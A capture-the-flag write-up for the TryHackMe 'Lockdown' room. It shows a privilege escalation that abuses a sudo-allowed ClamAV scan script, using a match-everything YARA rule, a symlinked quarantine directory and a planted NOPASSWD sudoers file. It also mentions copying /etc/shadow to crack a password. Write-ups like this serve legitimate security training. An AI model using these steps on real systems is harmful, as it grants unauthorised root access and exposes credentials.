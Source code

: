 # Lockdown: a slightly unintended privilege escalation

There are plenty of excellent writeups about this nice challenge by hangrymoose ([https://tryhackme.com/p/hangrymoose](https://tryhackme.com/room/lockdown)). You can find them here: [https://tryhackme.com/room/lockdown](https://tryhackme.com/room/lockdown).

Since I'm a lazy person, I just want to show a sligthly different way of getting root by file *writing*, using a custom sudoers configuration.

The vulnerability that gives us the ability to read arbitrary files is related to the `/opt/scan/scan.sh` script and the fact that we can write arbitrary rules in the `/var/lib/clamav` directory (which has 777 permissions).

The incriminated script is:

```bash
#!/bin/bash

read -p "Enter path: " TARGET

if [[ -e "$TARGET" && -r "$TARGET" ]]
  then
    /usr/bin/clamscan "$TARGET" --copy=/home/cyrus/quarantine
    /bin/chown -R cyrus:cyrus /home/cyrus/quarantine
  else
    echo "Invalid or inaccessible path."
fi
```

Many users have already explained how to write a custom yara rule which identifies every file as "virus", so we can copy them in our quarantine directory, actually reading `/root/root.txt` or `/etc/shadow` for instance (this gives us user maxine password hash which, once cracked, gives us root given maxine permissions).

But notice that chown by default does not follow symbolic links so, if we substitute the quarantine directory with a link to `/etc/sudoers.d/` we should be able to place an arbitrary "virus" file in `/etc/sudoers.d`, thus elevating our privileges.


So first we write our custom YARA rule:

```bash
cat > /var/lib/clamav/foo.yara <<EOF
rule CheckFileSize
{
  strings:
    \$abc = "abc"
  condition:
    (\$abc or not \$abc)
}
EOF
```

and place a symbolic link that points to the sudoers.d directory:

```
rmdir quarantine/
ln -s /etc/sudoers.d quarantine
```

We then prepare a custom sudoers configuration:

```
echo "cyrus ALL=(ALL:ALL) NOPASSWD:ALL" > evil_sudoers_file
```

and finally we run scan.sh


```
echo evil_sudoers_file | sudo /opt/scan/scan.sh 
/home/cyrus/evil_sudoers_file: YARA.CheckFileSize.UNOFFICIAL FOUND
/home/cyrus/evil_sudoers_file: copied to '/etc/sudoers.d/evil_sudoers_file'

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 0
Scanned files: 1
Infected files: 1
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.008 sec (0 m 0 s)
Start Date: 2021:10:03 14:01:29
End Date:   2021:10:03 14:01:29
```

Notice sudo -l output:

```
cyrus@lockdown:~$ sudo -l
Matching Defaults entries for cyrus on lockdown:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cyrus may run the following commands on lockdown:
    (root) /opt/scan/scan.sh
    (ALL : ALL) NOPASSWD: ALL
```

At this point we can just `sudo -i`
